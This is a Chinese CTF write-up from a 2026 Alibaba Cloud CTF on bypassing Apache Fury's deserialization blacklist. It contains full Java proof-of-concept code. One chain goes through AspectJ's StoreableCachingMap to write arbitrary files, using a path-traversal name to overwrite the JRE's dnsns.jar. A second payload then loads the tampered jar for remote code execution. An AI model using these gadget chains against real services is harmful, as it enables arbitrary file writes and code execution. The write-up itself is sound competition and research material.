

本文最初发表于 [SU 战队的 2026 ALICTF WriteUp](https://su-team.cn/post/alictf-su-2026-wu/#fileury)。

自 RCTF 一役沉寂许久，中间更是在 0CTF 被打得找不着北，未曾想今朝阿里云 CTF 竟让我寻回了用武之地。

话不多说，直接看题，题目使用 Apache Fury 进行反序列化，配置如下：

```Java
Fury fury = Fury.builder()
    .withLanguage(Language.JAVA)
    .requireClassRegistration(false)  // 允许反序列化未注册类
    .build();
Object obj = fury.deserialize(Base64.getDecoder().decode(input));
```

Fury 通过 `fury/disallowed.txt` 维护一份类黑名单，在反序列化时会检查类名是否在黑名单中。

**黑名单检查逻辑** (`DisallowedList.java`):

```Java
static void checkNotInDisallowedList(String clsName) {
    if (DEFAULT_DISALLOWED_LIST_SET.contains(clsName)) {
        throw new InsecureException(String.format("%s hit disallowed list", clsName));
    }
}
```

黑名单包含了大部分常用反序列化 Gadget 类:

复盘去年 WP 发现，当前环境缺失了 `com.feilong` 依赖，导致二次反序列化绕过黑名单的方案失效，这也意味着挖掘新利用链


先分析一下黑名单，包含了大部分常用反序列化 Gadget 类:

| Gadget 类                       | 状态                                    |
| ------------------------------- | --------------------------------------- |
| `TemplatesImpl`                 | ❌ 被拦截                                |
| `InvokerTransformer`            | ❌ 被拦截                                |
| `ChainedTransformer`            | ❌ 被拦截                                |
| `ConstantTransformer`           | ❌ 被拦截                                |
| `TiedMapEntry`                  | ❌ 未在黑名单但依赖的 Transformer 被拦截 |
| `BadAttributeValueExpException` | ❌ 被拦截                                |

**未被拦截的关键类**:

- `org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap`
- `org.apache.commons.collections.map.LazyMap`
- `org.apache.commons.collections.keyvalue.TiedMapEntry`
- `org.apache.commons.collections.comparators.TransformingComparator`
- `org.apache.commons.collections.functors.ConstantFactory`
- `org.apache.commons.collections.functors.StringValueTransformer`

起初试图复刻去年的思路挖掘二次反序列化，但此路俺没走通，失败了


就在一筹莫展之际，猛地想起老大梅子酒在 Non-RCE 题解中提到的 `StoreableCachingMap` 链子。这条链子能实现任意路径写文件，幸运地避开了黑名单的拦截**！**

```Java
HashSet.readObject()
    HashMap.put()
        HashMap.hash()
            TiedMapEntry.hashCode()
                TiedMapEntry.getValue()
                    LazyMap.get()
                        SimpleCache$StorableCachingMap.put()
                            SimpleCache$StorableCachingMap.writeToPath()
                                FileOutputStream.write()
```


**适配Fury 完整****POC****如下：**

```Java
package reproduce;

import org.apache.commons.collections.comparators.TransformingComparator;
import org.apache.commons.collections.functors.ConstantFactory;
import org.apache.commons.collections.functors.StringValueTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.fury.Fury;
import org.apache.fury.config.Language;

import java.io.FileOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;
import java.util.PriorityQueue;

public class ExpAspectJ {

    public static void main(String[] args) throws Exception {
        // Goal: Arbitrary File Write
        // Chain:
        // PriorityQueue.readObject() -> heapify() -> comparator.compare()
        // comparator = TransformingComparator(StringValueTransformer)
        // transformer.transform(TiedMapEntry) -> TiedMapEntry.toString()
        // TiedMapEntry.toString() -> getValue() -> map.get(key)
        // map = LazyMap(StoreableCachingMap, ConstantFactory(bytes))
        // LazyMap.get(key) -> factory.create(key) -> bytes
        // LazyMap.put(key, bytes) -> StoreableCachingMap.put(key, bytes) -> write bytes to file 'key'
        byte[] content = Files.readAllBytes(Paths.get("dnsns.jar"));

        String filename = "../../../../../../../../../usr/local/openjdk-8/jre/lib/ext/dnsns.jar";
//        byte[] content = cronPayload.getBytes();

        // 1. Setup StoreableCachingMap (The Inner Map)
        // Ensure access to the class
        Class<?> scMapClass = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Constructor<?> constructor = scMapClass.getDeclaredConstructor(String.class, int.class);
        constructor.setAccessible(true);
        // folder = ".", maxEntries = 100
        Map storeableMap = (Map) constructor.newInstance(".", 100);

        // 2. Setup LazyMap with ConstantFactory
        ConstantFactory factory = new ConstantFactory(content);
        Map lazyMap = LazyMap.decorate(storeableMap, factory);

        // 3. Setup TiedMapEntry
        TiedMapEntry entry = new TiedMapEntry(lazyMap, filename);

        // 4. Setup Comparator and Transformer
        // StringValueTransformer calls String.valueOf(obj) which calls obj.toString() (if not null)
        org.apache.commons.collections.Transformer transformer = StringValueTransformer.getInstance();
        TransformingComparator comparator = new TransformingComparator(transformer);

        // 5. Setup PriorityQueue
        PriorityQueue queue = new PriorityQueue(2, comparator);

        Field sizeField = PriorityQueue.class.getDeclaredField("size");
        sizeField.setAccessible(true);
        sizeField.set(queue, 2);

        Field queueField = PriorityQueue.class.getDeclaredField("queue");
        queueField.setAccessible(true);
        Object[] queueArray = new Object[2];
        queueArray[0] = entry;
        queueArray[1] = entry;
        queueField.set(queue, queueArray);

        // 6. Serialize with Fury
        System.out.println("Serializing AspectJ Chain with Fury...");
        Fury fury = Fury.builder().withLanguage(Language.JAVA).requireClassRegistration(false).build();
        byte[] serializedInfo = fury.serialize(queue);

        String b64 = Base64.getEncoder().encodeToString(serializedInfo);
        FileOutputStream fos = new FileOutputStream("payload_aj.b64");
        fos.write(b64.getBytes());
        fos.close();
        System.out.println("AspectJ Payload saved to payload_aj.b64");
    }
}
```

**利用链触发流程**:

```Plain
PriorityQueue.readObject()
  → heapify()
  → siftDown()
  → comparator.compare(queue[0], queue[1])
  → TransformingComparator.compare()
  → StringValueTransformer.transform(TiedMapEntry)
  → String.valueOf(TiedMapEntry)
  → TiedMapEntry.toString()
  → TiedMapEntry.getValue()
  → LazyMap.get(key)
  → factory.create()                    [ConstantFactory 返回预设的 byte[]]
  → StoreableCachingMap.put(key, value)
  → 写入文件 key，内容为 value
```

有了写文件能力，我以为胜券在握。尝试了包括但不限于计划任务、LD_Preload、charsets.jar 等各种写入姿势，结果竟无一奏效。苦也！这波折腾直接把狂子写到怀疑人生，当时心凉半截，只道是这一血要拱手让人了


正所谓山重水复疑无路，柳暗花明又一村。绝境中忽忆起一篇 FastJson 写入绕过的文章，妙招在于开启 `-verbose:class` 参数，通过监控类加载情况，精准定位未被加载的 JAR 包实施覆盖利用。

通过监控类加载情况，`dnsns.jar` 没有被加载！

```Prolog
2026-02-02 13:51:14 [Loaded java.util.concurrent.ThreadPoolExecutor$AbortPolicy from /usr/local/openjdk-8/jre/lib/rt.jar]
2026-02-02 13:51:14 [Loaded java.util.concurrent.ThreadPoolExecutor$CallerRunsPolicy from /usr/local/openjdk-8/jre/lib/rt.jar]
2026-02-02 13:51:14 [Loaded java.util.concurrent.ThreadPoolExecutor$DiscardOldestPolicy from /usr/local/openjdk-8/jre/lib/rt.jar]
2026-02-02 13:51:14 [Loaded java.util.concurrent.ThreadPoolExecutor$DiscardPolicy from /usr/local/openjdk-8/jre/lib/rt.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.JBossExecutors$3 from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.NullRunnable from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.JBossExecutors$5 from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded java.lang.IllegalAccessError from /usr/local/openjdk-8/jre/lib/rt.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.LoggingUncaughtExceptionHandler from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded org.wildfly.common.cpu.ProcessorInfo from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded sun.nio.cs.US_ASCII$Decoder from /usr/local/openjdk-8/jre/lib/rt.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.Version from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.Messages from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.Messages_$logger from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.StoppedExecutorException from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.EnhancedQueueExecutor$MBeanUnregisterAction from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.EnhancedQueueExecutor$MXBeanImpl from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded org.jboss.threads.Waiter from file:/app/app.jar]
2026-02-02 13:51:14 [Loaded java.util.concurrent.atomic.Striped64 from /usr/local/openjdk-8/jre/lib/rt.jar]
2026-02-02 13:51:14 [Loaded java.util.concurrent.atomic.LongAdder from /usr/local/openjdk-8/jre/lib/rt.jar]
```

这意味着可以通过反序列化

`sun.net.spi.nameservice.dns.DNSNameServiceDescriptor`触发`dnsns.jar`加载。这一记回马枪，直接让死局复活

```Java
package reproduce;

import org.apache.fury.Fury;
import org.apache.fury.config.Language;
import java.io.FileOutputStream;
import java.util.Base64;

public class ExpDNS {
    public static void main(String[] args) throws Exception {
        System.out.println("Generating payload to load sun.net.spi.nameservice.dns.DNSNameServiceDescriptor...");

        Fury fury = Fury.builder()
                .withLanguage(Language.JAVA)
                .requireClassRegistration(false)
                .build();

        // Load the class via reflection to avoid compilation errors if access is restricted
        Class<?> clazz = Class.forName("sun.net.spi.nameservice.dns.DNSNameServiceDescriptor");
        Object instance = clazz.newInstance();

        byte[] payload = fury.serialize(instance);
        String b64 = Base64.getEncoder().encodeToString(payload);

        try (FileOutputStream fos = new FileOutputStream("payload_dns.b64")) {
            fos.write(b64.getBytes());
        }

        System.out.println("Payload saved to payload_dns.b64");
        System.out.println("Payload Base64: " + b64);
    }
}
```

至于`dnsns.jar` 怎么改？驰骋AWDP赛场的诸君，像这种`JarEditor` 手改字节码的基操，想必无需我多言了，对吧？


先发包覆盖`dnsns.jar` ，再发包触发恶意类加载，完成RCE



比赛结束后，我试图向她解释什么是 Apache Fury 的黑名单绕过，解释那个 `dnsns.jar` 的覆盖是多么的神来之笔。她只是淡淡地看了我一眼转身就走了

那一刻我才明白

**可惜她不懂JAVA，也不懂我的⚡超！⚡级！⚡炎！🔥舞！🔥爆！⚡爆！⚡回！⚡**


参考资料：

1. [AliyunCTF2025 题解之 Jtools Fury 反序列化利用分析](https://mp.weixin.qq.com/s/dMl0aEg6p7w7MKlUe7pCdg?poc_token=HO5E0WejTX00WfrQI8oI22YsiTkxiEcLfLgbYyWv)
2. [AliyunCTF2025-JTools分析](https://eddiemurphy89.github.io/2025/03/01/AliyunCTF2025-JTools分析/#前言)
3. [Servlet中的时间竞争及AspectJWeaver反序列化Gadget构造[non-RCE 题解\]](https://meizjm3i.github.io/2021/03/07/Servlet中的时间竞争以及AsjpectJWeaver反序列化Gadget构造-AntCTFxD-3CTF-non-RCE题解/)
4. [[Java Puzzle #3 WP\] Fastjson write ascii JAR RCE](https://mp.weixin.qq.com/s/9e0V4bnV6fuGAfO1AKLYdw)
5. [可惜她不玩街霸，也没人懂我的⚡超！⚡级！⚡炎！🔥舞！🔥爆！⚡爆！⚡回！⚡](https://www.bilibili.com/video/BV1kdnszCEUy/?spm_id_from=333.337.search-card.all.click&vd_source=6870219ddced853e80ae239d5319e97c)
